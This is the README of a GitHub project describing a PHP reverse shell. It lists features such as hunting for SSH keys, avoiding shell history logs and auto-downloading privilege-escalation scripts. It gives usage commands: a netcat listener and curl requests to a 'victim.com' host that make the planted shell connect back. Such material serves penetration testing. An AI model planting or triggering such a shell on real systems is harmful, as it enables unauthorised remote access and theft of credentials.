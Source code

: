 # YAPS - **Y**et **A**nother **P**HP **S**hell

Yeah, I know, I know... But that's it. =)

As the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there. It is a single PHP file containing all its functions and you can control it via a simple netcat listener (`nc -lp 1337`).

In the current version (1.0), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs. =)

## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Can do some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell
* Duplicate connections
* Auto update

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via web request (`curl -x POST -d "x=ip&y=port" victim.com/yaps.php` or `curl victim.com/yaps.php?x=ip&y=port`);
3. Open yaps.php on browser or curl it;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`

## Screenshots

![image](https://user-images.githubusercontent.com/3837916/124825185-acd24480-df49-11eb-976f-f9db9328eabe.png)

![image](https://user-images.githubusercontent.com/3837916/124777687-c4dca080-df16-11eb-94b7-ef77127c5f20.png)

![image](https://user-images.githubusercontent.com/3837916/124775570-1b48df80-df15-11eb-8a3d-90090e8b8016.png)

![image](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

![image](https://user-images.githubusercontent.com/3837916/124776296-b641b980-df15-11eb-9a3c-396fe1544825.png)

## Changelog

**v1.2 - 17/07/2021**
- Added `!duplicate` to spawn another shell
- Added update verification (--update|-u)
- Added socket via arguments
- Added CLI arguments (--help|-h)
- Changed stabilize shell method (doesn't freeze anymore)
- Changed download method
- Changed connection method via POST

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell
